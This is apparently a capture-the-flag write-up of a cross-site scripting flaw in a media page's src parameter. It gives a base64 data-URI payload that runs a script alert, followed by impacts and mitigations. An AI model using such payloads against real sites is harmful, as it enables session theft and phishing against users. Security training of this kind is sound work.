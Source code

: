 # XSS via Media Object Vulnerability Report

## What I Found

In this one we have an XSS vulnerability.

## How I Discovered It

In the home page, we can find out that it's possible to navigate by clicking on the NASA image to:
`http://{ip}/?page=media&src=nsa`

By navigating the page and analyzing, we can find out that the website uses an `<object>` tag to embed media resources to the page. This media is retrieved based on the query parameter, e.g., "nsa".

## Data URI Scheme Research

By doing some research on [Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/data), we can find out how we can embed different things inside our website using the data URI scheme:

### Data URI Format
```
data:[<media-type>][;base64],<data>
```

### Examples of Data URI Usage
- **Text/HTML:** `data:text/html,<h1>Hello World</h1>`
- **Base64 encoded HTML:** `data:text/html;base64,PGgxPkhlbGxvIFdvcmxkPC9oMT4=`
- **JavaScript:** `data:text/html,<script>alert('XSS')</script>`
- **Images:** `data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVR42mP8/5+hHgAHggJ/PchI7wAAAABJRU5ErkJggg==`
- **CSS:** `data:text/css,body{background:red;}`

## The Attack

Finally, we can get the flag by visiting:
```
http://{ip}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pg==
```

### What This Payload Does

1. **Base64 Decoding:** The base64 string `PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pg==` decodes to: `<script>alert(1337)</script>`

2. **XSS Execution:** When the website embeds this data URI into an `<object>` tag, it executes the JavaScript code

3. **Complete Attack Flow:**
   - User visits the malicious URL
   - Website takes the `src` parameter value
   - Embeds it into: `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxMzM3KTwvc2NyaXB0Pg=="></object>`
   - Browser processes the data URI and executes the JavaScript
   - `alert(1337)` popup appears, proving XSS

## Why This is Dangerous

- **Script Execution:** Attackers can run arbitrary JavaScript in the victim's browser
- **Session Hijacking:** Can steal cookies and session tokens
- **Data Theft:** Can access sensitive information on the page
- **Phishing:** Can modify page content to trick users
- **Redirection:** Can redirect users to malicious websites

## How to Prevent This

1. **Input Validation:** Validate and sanitize the `src` parameter
2. **Whitelist Allowed Sources:** Only allow specific, trusted media sources
3. **Content Security Policy (CSP):** Implement CSP headers to block inline scripts
6. **URL Validation:** Validate that URLs point to expected domains/resources